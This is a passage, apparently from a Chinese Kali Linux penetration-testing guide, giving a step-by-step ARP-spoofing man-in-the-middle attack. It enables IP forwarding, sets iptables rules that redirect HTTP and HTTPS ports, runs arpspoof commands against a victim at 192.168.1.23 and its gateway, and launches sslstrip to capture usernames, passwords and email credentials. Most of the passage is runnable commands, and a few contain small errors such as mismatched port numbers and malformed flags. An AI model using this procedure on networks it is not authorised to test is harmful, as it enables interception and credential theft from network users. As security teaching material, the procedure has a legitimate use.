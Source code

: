 第一步是启用 IP 转发；这样可以使流量通过攻击者的系统进行重定向。要执行此攻击，我们执行以下命令：

```
#echo "1″ > /proc/sys/net/ipv4/ip_forward 
```

查看 IP 转发的设置值；这将返回一个值`1`。如果没有，重复前面的步骤：

```
#cat /proc/sys/net/ipv4/ip_forward 
```

输出将是：`1`

```
#sysctl -p 
```

请注意，这里的`1`表示我们正在启用 IP 转发。如果我们想要关闭此功能，可以使用`0`来运行相同的命令。

下一步是在流经我们系统时重定向流量，这很容易通过使用`iptables`命令来实现。

在这个设置中，接收到端口`80`的流量将被重定向到不同的端口号。在这种情况下，端口`80`被重定向到端口`8080`，端口`443`被重定向到端口`8883`。有了这组简单的规则，流量将被相应地重定向。

要实施我们的设置，我们只需在命令行中输入以下内容：

```
#iptables -t nat -A PREROUTING -p tcp -destination-port 80 -j REDIRECT -to-port 8880 
#iptables -t nat -A PREROUTING -p tcp -destination-port 443 -j REDIRECT -to-port 8883 
```

iptables 是一个命令行实用程序，它在 Linux 中已经存在很长时间，用于配置 Linux 内核中的防火墙设置。该实用程序比这里介绍的要复杂得多，但我们只需要使用基础知识来进行设置。

现在来到重要的部分，即执行实际的 ARP 欺骗。为此，我们将使用`arpspoof`命令来更改受害系统的缓存以包含不同的值。在这种情况下，我们将把默认网关更改为其他内容。我们可以使用以下命令来实现：

```
arpspoof -i interface -t target-ip target-gateway-ip 
```

更具体地说，我们将更改受害机器以包含网关的不同地址：

```
arpspoof -i eth0 -t 192.168.1.23 192.168.0.253 
```

我们也可以对网关执行相同的操作，就像这样：

```
arpspoof -i eth0 -t 192.168.0.253 192.168.1.23 
```

完成这些步骤后，我们将进入一个阶段，在这个阶段我们可以拦截网络中传输的请求。在 Kali 中，我们在这种情况下有一些信息收集的选择，比如`sslstrip`/`drifnet`。让我们简要地看一下如何设置每个选项。

`sslstrip`是一个嗅探和中间人工具，旨在捕获通过 SSL 协议传输的信息。使用这个命令，诸如用户名、密码、电子邮件账户和数据库用户详细信息等信息都有可能被拦截。

以下命令将允许攻击者嗅探目标 PC `192.168.1.23` 的流量，并指定`iptable nat`规则中定义的端口：

```
python /usr/share/sslstrip/sslstrip.py -p -s -l 8880 
```

等一会儿，记录在`/usr/share/sslstrip/sslstrip.log`中的嗅探数据，或者您可以使用用户定义的文件来转储捕获的数据。
